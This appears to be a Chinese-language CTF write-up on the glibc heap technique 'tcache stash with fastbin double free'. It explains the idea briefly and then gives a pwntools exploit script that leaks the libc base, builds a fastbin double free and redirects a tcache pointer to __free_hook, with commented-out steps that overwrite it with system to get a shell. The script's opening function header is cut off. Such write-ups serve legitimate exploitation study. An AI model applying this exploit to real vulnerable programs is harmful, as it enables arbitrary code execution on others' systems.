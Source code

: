 # tcache stash with fastbin double free

这个主要就是吧fastbin中的double free把他修改到tcahe中

![image-20250404233437720](./../images/image-20250404233437720.png)

但是要在fastbin中构造一个double free

![image-20250404233924239](./../images/image-20250404233924239.png)

这里主要的想法就是使用堆块把tcache填满使得数据写入到fastbin中从而在fastbin中构造一个double free

这里我们使用的代码就是通过for循环来使得

```python

    p.sendafter("choice:", "1")
    p.sendafter("index:", str(index))
    p.sendafter("size:", str(size))


def delete_chunk(index):
    p.sendafter("choice:", "2")
    p.sendafter("index:", str(index))


def edit_chunk(index, content):
    p.sendafter("choice:", "3")
    p.sendafter("index:", str(index))
    p.sendafter("length:", str(len(content)))
    p.sendafter("content:", content)


def show_chunk(index):
    p.sendafter("choice:", "4")
    p.sendafter("index:", str(index))


add_chunk(0, 0x410)
add_chunk(1, 0x10)
delete_chunk(0)
add_chunk(0, 0x410)
show_chunk(0)
libc.address = u64(p.recvuntil('\x7F')[-6:].ljust(8, '\x00')) - 0x3b6be0
info("libc base: " + hex(libc.address))

for i in range(9): add_chunk(i, 0x30)

for i in range(2, 9): delete_chunk(i)

delete_chunk(0)
delete_chunk(1)
delete_chunk(0)

for i in range(2, 9): add_chunk(i, 0x30)

add_chunk(0, 0x30)

edit_chunk(0, p64(libc.sym['__free_hook']))#通过这个方法就可以把tcache bin的fd改到free_hook中去

# add_chunk(0, 0x30)
# add_chunk(0, 0x30)
# add_chunk(0, 0x30)
#
# edit_chunk(0, p64(libc.sym['system']))#从这里就可以把freehook改为system使得我们可以执行权限
#
# edit_chunk(2,'/bin/sh\x00')
# delete_chunk(2)
gdb.attach(p)

p.interactive()

```

